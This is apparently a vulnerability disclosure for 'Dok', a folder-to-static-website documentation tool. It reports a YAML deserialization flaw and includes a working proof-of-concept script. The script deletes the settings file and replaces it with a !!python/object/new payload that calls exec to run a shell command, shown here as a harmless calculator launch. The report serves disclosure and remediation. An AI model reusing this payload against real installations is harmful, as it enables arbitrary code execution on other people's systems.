 # Description

`Dok` is a documentation tool/system that converts an architecture of folders and files into a static website that anyone can explore. It can be seen as a personal assistant, it invites you to write, organize and then publish your personal knowledge online. , which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install -r dok/requirements.txt
```

### Run exploit.py
```
import os
#os.system('pip install -r dok/requirements.txt')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.system('rm -rf dok/settings.yml')
os.chdir('dok/')
open('settings.yml','w+').write(payload)
```

* `python3 exploit.py`
* `python3 dok/script.py`

# Impact

Arbitary Code Execution

